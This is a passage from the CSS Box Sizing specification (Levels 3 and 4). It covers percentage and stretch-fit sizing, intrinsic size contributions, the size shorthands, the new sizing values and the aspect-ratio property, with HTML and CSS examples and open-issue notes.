### 4.  Extrinsic Size Determination {#css-sizing-3:extrinsic}

**Extrinsic sizing** determines sizes based on the context of an element, without regard for its contents.

#### 4.1.  Percentage Sizing {#css-sizing-3:percentage-sizing}

Percentages specify sizing of a box with respect to the box’s containing block.

> **Example:** For example, in the following markup:
>
> ```html
> <article style="height: 60em">
>   <figure style="height: 50%;">
>     
>   </figure>
> </article>
> ```
>
> - the `<figure>` would be `30em` tall = 50% of the definite `60em` height of the `<article>`
> - the `` would be `15em` tall = 50% of the `<figure>`’s height (which is itself definite because it’s a percentage resolved against a definite length)

See [§ 5.2.1 Intrinsic Contributions of Percentage-Sized Boxes](#css-sizing-3:cyclic-percentage-contribution) for details on how to resolve percentages when the size of the containing block depends on the size of its content.

#### 4.2.  Stretch-fit Sizing: filling the containing block {#css-sizing-3:stretch-fit-sizing}

Stretch-fit sizing tries to set the box’s used size to the length necessary to make its principal box’s outer size as close to filling the containing block as possible while still respecting the constraints imposed by `min-height`/`min-width`/`max-height`/`max-width`.

**If used in an axis where percentage sizes can resolve to a definite value**

: Sizes the margin box to fill the containing block exactly, treating `auto` margins as zero. (If this would make the inner size negative, it instead sizes the margin box so that the inner size is zero.)

  For in-flow block-level boxes that form an independent formatting context, use the space available to line boxes (i.e. excluding floats) in place of the containing block’s inline size.

  For in-flow block-level boxes when resolving the block axis size: if the ancestor element percentages resolve against does not have a block-start `border` or `padding` and is not an independent formatting context, treat the element’s block-start margin as zero for the purpose of calculating this size. Do the same for the block-end margin, analogously.

  > **Note:** This simulates the effect of margins collapsing with the parent’s margin. It doesn’t actually suppress the margins, so if anything prevents the element from actually collapsing with its parent, the stretch-fit size might actually be too large to fit in the parent perfectly.

**Otherwise**

: In a preferred size property, behaves as auto. In a min size property, behaves as `0`. In a max size property, behaves as `none`.

> **Example:** For example, given the following HTML representing two block boxes:
>
> ```
> <div class="parent">
>   <div class="child">text</div>
> </div>
> ```
>
> In the following case, the outer height of the child box will exactly match the height of the parent box (200px), but its inner height will be 20px less, to account for its margins.
>
> ```
> .parent { height: 200px; border: solid; }
> .child { height: stretch; margin: 10px; }
> ```
>
> On the other hand, in this case we can assume that the child’s margins will collapse with the parent, so the inner box will be `200px` tall, exactly filling the parent.
>
> ```
> .outer { height: 200px; margin: 0; }
> .inner { height: stretch; margin: 10px; }
> ```
>
> (The top margins will in fact collapse, but the bottom margins do not collapse, because the bottom margin of a box is not adjoining to the bottom margin of a parent with a non-`auto` height, see [CSS 2 § 8.3.1 Collapsing margins](#css2:collapsing-margins). Luckily, an overflowing bottom margin doesn’t have any visible effect.)

> **Example:** Similarly, `width: stretch` causes the box to fill its container, being 20px narrower than the width of "some more text" (due to the 10px margin):
>
> ```
> <div class="parent">
>   <div class="child">text</div>
> </div>
> some more text
> ```
>
> ```
> .parent { float: left; margin: 0; }
> .child { width: stretch; margin: 10px; }
> ```

> **Example:** On the other hand, in this example the container’s height is indefinite, which would cause a percentage height on the child to behave as auto, so `height: stretch` behaves as auto as well.
>
> ```
> .parent { height: auto; margin: 0; }
> .child { height: stretch; margin: 10px; }
> ```

> **Note:** The stretch-fit size is usually, but not always, equivalent to `stretch` self-alignment. For example, in multi-line flex layout, the stretch-fit size resolves against the containing block directly, and contributes that size to the cross size of the line—​whereas `stretch` contributes the fit-content size—​before finally resolving against the cross size of the line.

### 5.  Intrinsic Size Determination {#css-sizing-3:intrinsic}

**Intrinsic sizing** determines sizes based on the contents of an element, without regard for its context.

#### 5.1.  Intrinsic Sizes {#css-sizing-3:intrinsic-sizes}

The min-content size of a box in each axis is the size it would have if it was a float given an `auto` preferred size in that axis (and no minimum or maximum size in that axis) and if its containing block was *zero*-sized in that axis. (In other words, the minimum size it has when sized as “shrink-to-fit”.)

The max-content size of a box in each axis is the size it would have if it was a float given an `auto` preferred size in that axis (and no minimum or maximum size in that axis), and if its containing block was *infinitely*-sized in that axis. (In other words, the maximum size it has when sized as “shrink-to-fit”.)

The min-content size and max-content size are collectively referred to as the intrinsic sizes.

> **Note:** When the box has a preferred aspect ratio, size constraints in the opposite dimension will transfer through and can affect the `auto` size in the considered one. See [CSS2§10](#css2).

This specification does not define how to determine the sizes of floats. Please refer to [CSS2]. However, the intrinsic sizes of replaced elements without natural sizes are defined below:

**If it has a non-degenerate preferred aspect ratio:**

: For the min-content size, use zero.

  For the max-content size:

  - If the available space is definite in the inline axis, use the stretch fit into that size for the inline size and calculate the block size using the aspect ratio.
  - Otherwise if the box has a `<length>` as its computed value for `min-width` or `min-height`, use that size and calculate the other dimension using the aspect ratio; if both dimensions have a <length> minimum, choose the one that results in the larger overall size.

    > **Note:** This case was previous calculated from a 300x150 default size, rather than the box’s min size. This is believed to be a better behavior, and likely to be Web-compatible, but please send feedback to the CSSWG if there are any problems.
  - Otherwise use an inline size matching the corresponding dimension of the initial containing block and calculate the other dimension using the aspect ratio.

**If it has no preferred aspect ratio:**

: For both the min-content size and max-content size:

  - If the box has a `<length>` as its computed minimum size (`min-width`/`min-height`) in that dimension, use that size.

    > **Note:** This author-controllable behavior is made possible by the new `auto` value for the min size properties. This is believed to be a better behavior, but it is not yet clear if it is Web-compatible, so please send feedback to the CSSWG if there are any problems.
  - Otherwise, use `300px` for the width and/or `150px` for the height as needed.

    > **Note:** This does not imply an aspect ratio.

Since a block-level or inline-level replaced element whose `height` or `width` behaves as auto is effectively defined to use its max-content size ([CSS2§10.3.2](#css2:inline-replaced-width)), this specification applies the rules above to the undefined case of a replaced element whose `height` and `width` both behave as auto.

> **Note:** This specification does not define how to determine the size of a float. Please refer to [CSS2], the relevant CSS specification for that display type, and/or existing implementations for further details. A future specification will define this in detail, replacing the CSS2 “definition”, such as it is.

---

Although the `auto` size of text input controls such as HTML’s `<input type=text>` and `<textarea>` elements is typically a fixed size, the contents of such elements can be used to determine a content-based intrinsic size, as for non-replaced block containers. The `min-content` and `max-content` keywords of the sizing properties thus represent content-based sizes for form controls which render their value as text contained within their box, allowing such controls to size to fit their visible contents similarly to regular non-replaced elements.

The content in this case is defined to be the input control’s values (the raw value in the case of `textarea`, or the [value](https://html.spec.whatwg.org/multipage/form-control-infrastructure.html#concept-fe-value) in the case of `input`), possibly transformed to a more human-readable and/or localized display format, which is then treated as child text sequences of the input control, allowing soft wrap opportunities only where the input control would actually allow wrapping (whether keyed off of CSS properties or other, UA-internal constraints). If the input control has designated placeholder text to be overlaid in its value display area, then that text is also measured for the purpose of calculating the content-based size—​whether or not the placeholder text is visible at the moment. (Thus the content-based intrinsic size of the input control is the larger of the size to fit the placeholder text and the size to fit the value.)

The UA may enforce a minimum (such as the size required to contain a single zero-width character, or the smallest usable size of a touch target) on the form control’s min-content and max-content sizes to ensure sufficient space for the caret and otherwise maintain usability of the form control.

> **Note:** This might be extended to `iframe` or other content-containing replaced elements (see [discussion](https://github.com/w3c/csswg-drafts/issues/1771)), but text inputs are a major use-case; and being document-internal, have the least additional complications.

#### 5.2.  Intrinsic Contributions {#css-sizing-3:intrinsic-contribution}

A box’s min-content contribution/max-content contribution in each axis is the size of the content box of a hypothetical `auto`-sized float that contains only that box, if that hypothetical float’s containing block is zero-sized/infinitely-sized.

> **Note:** This specification does not define precisely how to determine these sizes. Please refer to [CSS2], the relevant CSS specification for that display type, the [rules for handling percentages](#css-sizing-3:percentage-sizing) (below), and/or existing implementations for further details.

For this purpose, `stretch` self-alignment and stretch-fit sizing (when they are able to resolve extrinsically) are considered definite the same way as resolveable percentages.

##### 5.2.1.  Intrinsic Contributions of Percentage-Sized Boxes {#css-sizing-3:cyclic-percentage-contribution}

Sometimes the size of a percentage-sized box’s containing block depends on the intrinsic size contribution of the box itself, creating a cyclic dependency. When calculating the intrinsic size contribution of such a box (including any calculations for a content-based automatic minimum size), a percentage value that resolves against a size in the same axis as the intrinsic size contribution (a **cyclic percentage size**) is resolved specially:

1. If the box is non-replaced, then the entire value of any max size property or preferred size property (`width`/`max-width`/`height`/`max-height`) specified as an expression containing a percentage (such as `10%` or `calc(10px + 0%)`) that is cyclic is treated *for the purpose of calculating the box’s intrinsic size contributions only* as that property’s initial value. For example, given a box with `width: calc(20px + 50%)`, its max-content contribution is calculated as if its `width` were `auto`. (The percentage is honored as usual, however, during the actual sizing of the box itself; see below.)
2. Likewise, if the box is replaced, then the entire value of any max size property or preferred size property specified as an expression containing a percentage that is cyclic is treated *for the purpose of calculating the box’s max-content contributions only* as that property’s initial value.
3. If the box is replaced, a cyclic percentage in the value of any max size property or preferred size property (`width`/`max-width`/`height`/`max-height`), is resolved against zero when calculating the min-content contribution in the corresponding axis. (See [§ 5.2.2 Compressible Replaced Elements](#css-sizing-3:min-content-zero) for a list of which elements in HTML this applies to.) If the box also has a preferred aspect ratio, then this min-content contribution is floored by any `<length-percentage>` minimum size from the opposite axis—​resolving any such percentage against zero—​transferred through the preferred aspect ratio.

   > **Issue:** Should we resolve transferred percentages against their containing block instead of zero before transferring them? See [discussion](https://github.com/w3c/csswg-drafts/issues/6341).

   The UA may additionally floor the min-content contribution based on UI considerations, such as ensuring certain UI elements remain visible (for example, the dropdown arrow on a `select`).

   > **Note:** The min-content contribution is, as always, also floored by the minimum size in its own axis.

   This rule also applies when calculating a content-based automatic minimum size or its corresponding size contribution, yielding a definite “specified size suggestion”.

   > **Example:** For example, an `input` assigned `width: calc(50% + 50px)` has a min-content contribution of `50px`, plus any horizontal margin/border/padding.
4. For the min size properties, as well as for margins and paddings (and gutters), a cyclic percentage is resolved against zero for determining intrinsic size contributions.

| Element Type | Replaced | Non-replaced |  |  |
| --- | --- | --- | --- | --- |
| Contribution Type | min-content | max-content | min-content | max-content |
| min size & margin/padding | [zeroᵈ](#css-sizing-3:min-percentage-contribution) | [zeroᵈ](#css-sizing-3:min-percentage-contribution) | [zeroᵈ](#css-sizing-3:min-percentage-contribution) | [zeroᵈ](#css-sizing-3:min-percentage-contribution) |
| max & preferred size | [zeroᶜ](#css-sizing-3:replaced-percentage-min-contribution) | [initialᵇ](#css-sizing-3:replaced-percentage-max-contribution) | [initialᵃ](#css-sizing-3:non-replaced-percentage-contribution) | [initialᵃ](#css-sizing-3:non-replaced-percentage-contribution) |

Then, unless otherwise specified, when calculating the used sizes and positions of the containing block’s *contents*:

- If the cyclic dependency was introduced due to a block-axis size other than a minimum size on the containing block (i.e. a `block-size` or `max-block-size` in most layout modes, or a `flex-basis` in flex layout) that causes it to depend on the size of its contents, the box’s percentage is not resolved and instead behaves as auto.

  > **Note:** Grid items in both axes, flex items in the main axis, and children of flex items in both axes do allow percentages to resolve in this case.
- Otherwise, the percentage is resolved against the containing block’s size. (The containing block’s size is not re-resolved based on the resulting size of the box; the contents might thus overflow or underflow the containing block).

> **Note:** These rules specify the previously-undefined behavior of this cyclic case in [CSS2§10.2](#css2:the-width-property), [CSS2§8.3](#css2:margin-properties), and [CSS2§8.4](https://www.w3.org/TR/CSS2/box.padding-properties). Note also, the behavior in [CSS2§10.5](#css2:the-height-property) is superseded in their respective specifications for layout modes (such as [flex layout](#css-flexbox-2)) not described in CSS2.

> **Example:** For example, in the following markup:
>
> ```html
> <article style="width: min-content">
>   <aside style="width: 50%;">
>   LOOOOOOOOOOOOOOOOOOOONG
>   </aside>
> </article>
> ```
>
> When calculating the width of the outer `<article>`, the inner `<aside>` behaves as `width: auto`, so the `<article>` sets itself to the width of the long word. Since the `<article>`’s width didn’t depend on "real" layout, though, it’s treated as definite for resolving the `<aside>`, whose width resolves to half that of the `<article>`.

> **Example:** In this example,
>
> ```html
> <article style="height:auto">
>   <aside style="height: 50%;">
>     <div class=block style="height: 150px;"></div>
>   </aside>
>   <section style="height: 30px;"></section>
> </article>
> ```
>
> because the percentage block size (`height`, in this case) on block-level elements is defined to not resolve inside content-sized containing blocks, the percentage height on the `<aside>` is ignored, that is, it behaves exactly as if `auto` were specified.

> **Example:** > **Issue:** Letting percentages still resolve against a definite `height` when the min-height is intrinsic is an open issue. (CSS2 has a general statement about "height depending on contents", which this technically is, even though CSS2 didn’t have content-dependent keywords for `min-height`. Since this is new, we think we could have this different behavior.)
>
> The following examples illustrate how block-axis percentages resolve against a containing block whose size depends on its contents.
>
> ```html
> <article style="height:100px; min-height: min-content;">
>   <aside style="height: 50%;">
>     <div style="height: 150px;"></div>
>   </aside>
>   <section style="height: 30px;"></section>
> </article>
> ```
>
> The initial height of the `<article>` is 100px, as specified, which would make the `<aside>` 50px tall when it resolved its percentage. However, we must calculate the min-height, by substituting it in for `height`. This causes the percentage on the `<aside>` to behave as auto, so the `<aside>` ends up 150px tall. The total height of the contents is thus 180px. This is larger than the specified 100px height, so the `<article>` gets adjusted to 180px tall.
>
> Then, since the percentage could *originally* resolve against the (100px) height, it now resolves against the 180px height, so the `<aside>` ends up being 90px tall.
>
> ```html
> <article style="height:auto; min-height: min-content;">
>   <aside style="height: 50%;">
>     <div class=block style="height: 150px;"></div>
>   </aside>
>   <section style="height: 30px;"></section>
> </article>
> ```
>
> In this case, the percentage on the `<aside>` won’t normally resolve, because the containing block’s height is `auto` (and thus depends on the size of its contents). Instead it behaves as auto, resulting in a height of 150px for the `<aside>`, and an initial height of 180px for the `<article>` The `min-height` doesn’t change this; `height: min-content;` acts similarly to `height: auto;` and results in the same sizes.
>
> ```html
> <article style="height:100px; min-height: min-content;">
>   <aside style="height: 200%;">
>     <div style="height: 150px;"></div>
>   </aside>
>   <section style="height: 30px;"></section>
> </article>
> ```
>
> This is a variation on the first code block, and follows a similar path; the `<aside>` initially wants to compute to 200px tall (200% of the 100px containing block height). When we calculate the effects of `min-height`, the percentage behaves as auto, causing it to become 150px tall, and the total `min-content` height of the containing block to be 180px tall. Since this is larger than 100px, the `<article>` gets clamped to 180px, the percentage resolves against this new height, and the `<aside>` ends up being 360px tall, overflowing the `<article>`

##### 5.2.2.  Compressible Replaced Elements {#css-sizing-3:min-content-zero}

In addition to the replaced elements listed in [HTML§14.4](https://html.spec.whatwg.org/multipage/rendering.html#replaced-elements) [HTML], the following HTML elements are also considered to be replaced elements for the purpose of the [percentage-sized replaced element rule](#css-sizing-3:replaced-percentage-min-contribution) above, and can have their min-content contribution compressed when their `width`/`height` or `max-width`/`max-height` is expressed with a cyclic percentage size:

- `input` with any `type` that is not "button-like"; this can vary depending on the UA.

  A type is "button-like" in a particular UA if it displays similar to a `button` element, where it can contains actual content that determines the layout of the element. In most UAs, the "button", "reset", "submit", and "color" types are button-like; the "file" type is also partially button-like in some UAs, when it’s displayed as a combination of a text input (shrinkable) and a button (button-like, and thus not shrinkable).
- `select`, `textarea`, `progress`, `meter`, `marquee`.

> **Issue:** Tracking web-compat & implementation progress of applying this to max-width/height in [Issue 6348](https://github.com/w3c/csswg-drafts/issues/6348). [[Issue #6348]](https://github.com/w3c/csswg-drafts/issues/6348)

---

## CSS Box Sizing Module Level 4 {#css-sizing-4}

- **Shortname:** `css-sizing-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-sizing-4/](https://drafts.csswg.org/css-sizing-4/)
- **Published TR:** [https://www.w3.org/TR/css-sizing-4/](https://www.w3.org/TR/css-sizing-4/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-10-27
- **Diff Specification Over:** [CSS Box Sizing Module Level 3 (`css-sizing-3`)](#css-sizing-3)

### 1.  Introduction {#css-sizing-4:intro}

> **Issue:** This is a diff spec over [CSS Sizing Level 3](#css-sizing-3). It is currently an Exploratory Working Draft: if you are implementing anything, please use Level 3 as a reference. We will merge the Level 3 text into this draft once it reaches CR.

#### 1.1.  Module interactions {#css-sizing-4:placement}

This module extends the `width`, `height`, `min-width`, `min-height`, `max-width`, `max-height`, and `column-width` features defined in [CSS2] chapter 10 and in [CSS3COL]

#### 1.2.  Value Definitions {#css-sizing-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Terminology {#css-sizing-4:terms}

> **Issue:** [CSS Sizing 3 § 2 Terminology](#css-sizing-3:terms)

### 3.  Specifying Box Sizes {#css-sizing-4:specifying-sizes}

> **Issue:** [CSS Sizing 3 § 3 Specifying Box Sizes](#css-sizing-3:specifying-sizes)

#### 3.1.  Sizing Properties {#css-sizing-4:sizing-properties}

> **Issue:** [CSS Sizing 3 § 3.1 Sizing Properties](#css-sizing-3:sizing-properties)

| Field | Value |
| --- | --- |
| Name: | **size** |
| [Value:](#css-values-4:value-defs) | `<'width'>` `<'height'>`? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `size` property is a shorthand that sets `width` and `height` in a single declaration. If the second value is omitted, it is copied from the first.

The `size` shorthand cannot be used in `@page` contexts, as `@page` already has an unrelated `size` descriptor for setting the page size.

> **Issue:** The `size` property needs to be omitted from the preferred shorthand order in CSSOM, to avoid compat problems and conflicts with `@page`.

| Field | Value |
| --- | --- |
| Name: | **min-size** |
| [Value:](#css-values-4:value-defs) | `<'min-width'>` `<'min-height'>`? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `min-size` property is a shorthand that sets `min-width` and `min-height` in a single declaration. If the second value is omitted, it is copied from the first.

| Field | Value |
| --- | --- |
| Name: | **max-size** |
| [Value:](#css-values-4:value-defs) | `<'max-width'>` `<'max-height'>`? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `max-size` property is a shorthand that sets `max-width` and `max-height` in a single declaration. If the second value is omitted, it is copied from the first.

#### 3.2.  New Sizing Values: the `contain`, `stretch()`, `fit-content()`, and `calc-size()` values {#css-sizing-4:sizing-values}

> **Issue:** Integrate [CSS Sizing 3 § 3.2 Sizing Values: the <length-percentage>, auto | none, stretch, min-content, max-content, and fit-content values](#css-sizing-3:sizing-values)

Level 4 adds the ability to use the `contain`, `fit-content()`, and `calc-size()` values in the sizing properties, thus expanding the `<box-size>` production as follows:

```css
<box-size> = <length-percentage [0,∞]>
             | stretch | contain | min-content | max-content | fit-content
             | stretch(<length-percentage [0,∞]>) | fit-content(<length-percentage [0,∞]>)
             | <calc-size()>
```

****stretch(`<length-percentage [0,∞]>`)****

: Fit the margin box to the size specified by the argument. For this purpose, treat `auto` margins as zero, and ignore [margin collapsing](#css2:collapsing-margins), `margin-trim`, and other effects that suppress or truncate the margin.

  > **Note:** Although margin collapsing, etc. are ignored for the purpose of calculating this size, their effects are not otherwise suppressed, and apply as usual.

  The `<length-percentage>` argument is resolved exactly as for <length-percentage> values standing alone.

  > **Issue:** Open discussion wrt details here. [[Issue #5715]](https://github.com/w3c/csswg-drafts/issues/5715)

****fit-content(`<length-percentage [0,∞]>`)****

: Use the fit-content formula with the available space replaced by `stretch()` into the specified argument, i.e. `min(max-content, max(min-content, stretch(<length-percentage>))`.

****contain****

: If the box has a preferred aspect ratio, applies contain-fit sizing, attempting to fit into the box’s constraints while maintaining its preferred aspect ratio insofar as possible. See § 6.1 Contain-fit Sizing: stretching while maintaining an aspect ratio.

  If the box has no preferred aspect ratio, applies stretch-fit sizing.

**`calc-size()`**

: See [§ 7 Calculating With Intrinsic Sizes: the calc-size() function](#css-sizing-4:calc-size).

  > **Note:** The `none` keyword is not usable within `calc-size()`.

> **Note:** These new values add to the set of values that the definition of `<calc-size()>` refers to as “allowed in the context”.

### 4.  Aspect Ratios {#css-sizing-4:ratios}

Images often have a natural aspect ratio, which the CSS layout algorithms attempt to preserve as they resize the element.

The `aspect-ratio` property allows specifying this behavior for non-replaced elements, and for altering the effective aspect ratio of replaced elements.

> **Issue:** We are still working through the details of this section. If there is any behavior specified here that would cause replaced elements with a preferred aspect ratio to behave differently than they would under the requirements of the [CSS2](#css2), [Flex Layout](#css-flexbox-2), and [Grid Layout](#css-grid-2) specs combined (without this specification in effect), **this is an error and should be [reported](https://github.com/w3c/csswg-drafts/issues) to the CSSWG**. There is a [list of open aspect-ratio issues](https://github.com/w3c/csswg-drafts/issues?q=is%3Aissue%20state%3Aopen%20label%3Acss-sizing-4%20aspect-ratio%20label%3A%22Needs%20Edits%22).

#### 4.1.  Preferred Aspect Ratios: the `aspect-ratio` property {#css-sizing-4:aspect-ratio}

| Field | Value |
| --- | --- |
| Name: | **aspect-ratio** |
| [Value:](#css-values-4:value-defs) | auto \|\| `<ratio>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements except inline boxes and internal ruby or table boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword or a pair of numbers |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property sets a **preferred aspect ratio** for the box, which will be used in the calculation of `auto` sizes and some other layout functions.

****auto****

: Replaced elements with a natural aspect ratio use that aspect ratio; otherwise the box has no preferred aspect ratio. Size calculations involving the aspect ratio work with the content box dimensions always.

****`<ratio>`****

: The box’s preferred aspect ratio is the specified ratio of `width / height`. Size calculations involving the aspect ratio work with the dimensions of the box specified by `box-sizing`.

  If the `<ratio>` is degenerate, the property instead behaves as `auto`.

****auto && `<ratio>`****

: If both `auto` and a `<ratio>` are specified together, the preferred aspect ratio is the specified ratio of `width / height` unless it is a replaced element with a natural aspect ratio, in which case that aspect ratio is used instead. In all cases, size calculations involving the aspect ratio work with the content box dimensions always.

  If the `<ratio>` is degenerate, the property instead behaves as `auto`.

> **Note:** Having a preferred aspect ratio does not make a box into a replaced element; layout rules specific to replaced elements do not generally apply to non-replaced boxes with a preferred aspect ratio. For example, a non-replaced absolutely-positioned box treats `justify-self: normal` as `stretch`, not as `start` ([CSS Box Alignment 3 § 6.1.2 Absolutely-Positioned Boxes](#css-align-3:justify-abspos)), even if it has a preferred aspect ratio

> **Issue:** CSS2.1 does not cleanly differentiate between replaced elements vs. elements with an aspect ratio; need to figure out specific cases that are unclear and define them, either in the appropriate Level 3 spec or here.

> **Example:** This example sets each item in the grid to render as a square, determining the number of items and their widths by the available space.
>
> ```
> <ul>
>   <li>…
>   <li>…
>   <li>…
>   <li>…
> </ul>
> ```
>
> ```
> ul {
>   display: grid;
>   grid-template-columns: repeat(auto-fill, minmax(12em, 1fr));
> }
> li {
>   aspect-ratio: 1/1;
>   overflow: auto;
> }
> ```

> **Example:** This example uses the `iframe` element’s `width` and `height` attributes to set the `aspect-ratio` property, giving the iframe an aspect ratio to use for sizing so that it behaves exactly like an image with that aspect ratio.
>
> ```
> <iframe
>   src="https://www.youtube.com/embed/0Gr1XSyxZy0"
>   width=560
>   height=315>
> ```
>
> ```
> @supports (aspect-ratio: attr(width number) / 1) {
>   iframe {
>     aspect-ratio: attr(width number) / attr(height number);
>     width: 100%;
>     height: auto;
>   }
> }
> ```

If a replaced element’s only natural dimension is a natural width or a natural height, giving it a preferred aspect ratio also gives it an natural height or width, whichever was missing, by transferring the existing size through the preferred aspect ratio.

#### 4.2.  Effects of Preferred Aspect Ratio on Automatic Sizes {#css-sizing-4:aspect-ratio-automatic}

When a box has a preferred aspect ratio, its automatic sizes are calculated the same as for a replaced element with a natural aspect ratio and no natural size in that axis, see e.g. [CSS2 § 10](#css2) and [CSS Flexible Box Model Level 1 § 9.2](#css-flexbox-2:algo-main-item). The axis in which the preferred size calculation depends on this aspect ratio is called the **ratio-dependent axis**, and the resulting size is definite if its input sizes are also definite. The opposite axis (on which the ratio-dependent axis size depends) is the **ratio-determining axis**.

> **Note:** A preferred aspect ratio only ever has an effect if at least one of the box’s sizes is automatic. If neither `width` nor `height` is an automatic size, it can have no effect on its preferred sizes.

> **Issue:** When we move all the sizing information here, rather than crowbar-ing our way into 2.1, then the core principle here is just: the resolved preferred size in the ratio-determining axis (before applying min/max) gets transferred thru the ratio. Min/max constraints get transferred afterwards, and then applied to each axis independently without regards to aspect-ratio.

##### 4.2.1.  Margin-collapsing {#css-sizing-4:aspect-ratio-margin-collapse}

For the purpose of margin collapsing ([CSS 2 § 8.3.1 Collapsing margins](#css2:collapsing-margins)), if the block axis is the ratio-dependent axis, it is not considered to have a computed `block-size` of `auto`.

#### 4.3.  Automatic Content-based Minimum Sizes {#css-sizing-4:aspect-ratio-minimum}

In order to avoid unintentional overflow, the automatic minimum size in the ratio-dependent axis of a box with a preferred aspect ratio that is neither a replaced element, nor a scroll container in that axis, is its min-content size capped by its maximum size.

> **Example:** In the following example, the box is as wide as the container (as usual), and its height is as tall as needed to contain its content but at least as tall as it is wide.
>
> ```
> div {
>   aspect-ratio: 1/1;
>   /* 'width' and 'height' both default to 'auto' */
> }
> ```
>
> ```
> +----------+  +----------+  +----------+
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~ |
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~ |
> | ~~~~~~~  |  | ~~~~~~~~ |  | ~~~~~~~~ |
> |          |  | ~~~      |  | ~~~~~~~~ |
> +----------+  +----------+  | ~~~~~~~~ |
>                             | ~~~~~~   |
>                             +----------+
> ```
>
> When `overflow: auto` is specified, however, even the box with excess content maintains the 1:1 aspect ratio (and handles overflow by becoming scrollable instead, as usual).
>
> ```
> div {
>   overflow: auto;
>   aspect-ratio: 1/1;
> }
> ```
>
> ```
> +----------+  +----------+  +----------+
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~^|
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~ |
> | ~~~~~~~  |  | ~~~~~~~~ |  | ~~~~~~~~ |
> |          |  | ~~~      |  | ~~~~~~~~v|
> +----------+  +----------+  +----------+
> ```
>
> Overriding the `min-height` property also maintains the 1:1 aspect ratio, but will result in content overflowing the box if it is not otherwise handled.
>
> ```
> div {
>   aspect-ratio: 1/1;
>   min-height: 0;
> }
> ```
>
> ```
> +----------+  +----------+  +----------+
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~ |
> | ~~~~~~~~ |  | ~~~~~~~~ |  | ~~~~~~~~ |
> | ~~~~~~~  |  | ~~~~~~~~ |  | ~~~~~~~~ |
> |          |  | ~~~      |  | ~~~~~~~~ |
> +----------+  +----------+  +-~~~~~~~~-+
>                               ~~~~~~    
> ```

> **Example:** This automatic minimum operates in both axes. Consider this example:
>
> ```
> <div style="height: 100px; aspect-ratio: 1/1;">
>   <span style="display: inline-block; width: 50px;"></span>
>   <span style="display: inline-block; width: 150px;"></span>
> </div>
> ```
>
> The `width` of the container, being `auto`, resolves through the aspect ratio to 100px. However, its `min-width`, being `auto`, resolves to 150px. The resulting width of the container is thus 150px. To ignore the contents when sizing the container, `min-width: 0` can be specified.

#### 4.4.  Min/Max Size Transfers {#css-sizing-4:aspect-ratio-size-transfers}

Sizing constraints in either axis (the *origin* axis) are transferred through the preferred aspect ratio and applied to any indefinite minimum, maximum, or preferred size in the other axis (the *destination* axis) as follows:

- First, any definite minimum size is converted and transferred from the *origin* to *destination* axis. This transferred minimum is capped by any definite preferred or maximum size in the *destination* axis.
- Then, any definite maximum size is converted and transferred from the *origin* to *destination*. This transferred maximum is floored by any definite preferred or minimum size in the *destination* axis as well as by the transferred minimum, if any.

> **Note:** Thus, any definite sizes are completely unaffected by a transferred constraint; and a transferred minimum will never cause an element to exceed a definite preferred/maximum size, nor will a transferred maximum cause an element to violate its preferred/minimum size.

> **Note:** The basic principle is that sizing constraints transfer through the aspect-ratio to the other side to preserve the aspect ratio to the extent that they can without violating any sizes specified explicitly on that affected axis. (This is the principle that drove the contents of the [constraint table in CSS2 Section 10.4](#css2:min-max-widths).)

> **Example:** In the following example:
>
> ```
> <div id=container style="height: 100px; float: left;">
>   <div id=item style="height: 100%; aspect-ratio: 1/1;">content</div>
> </div>
> ```
>
> Since the height of the `#item` is a percentage that resolves against a definite container, the width of the item resolves to 100px for both its intrinsic size contributions as well as for final layout, so the container also sizes to a width of 100px.
>
> ```
> <div id=container style="height: auto; float: left;">
>   <div id=item style="height: 100%; aspect-ratio: 1/1;">content</div>
> </div>
> ```
>
> In this next example, the percentage height of the item cannot be resolved and behaves as auto (see [CSS 2 § 10.5 Content height: the 'height' property](#css2:the-height-property)). Since both axes now have an automatic size, the height becomes the ratio-dependent axis. Calculating the intrinsic size contributions of the box produces a width derived from its content, and a height calculated from that width and the aspect ratio, yielding a square box (and a container) sized to the width of the word “content”.

> **Issue:** This section might not be written correctly. [[Issue #6071]](https://github.com/w3c/csswg-drafts/issues/6071)

### 5.  Intrinsic Size Determination {#css-sizing-4:intrinsic}

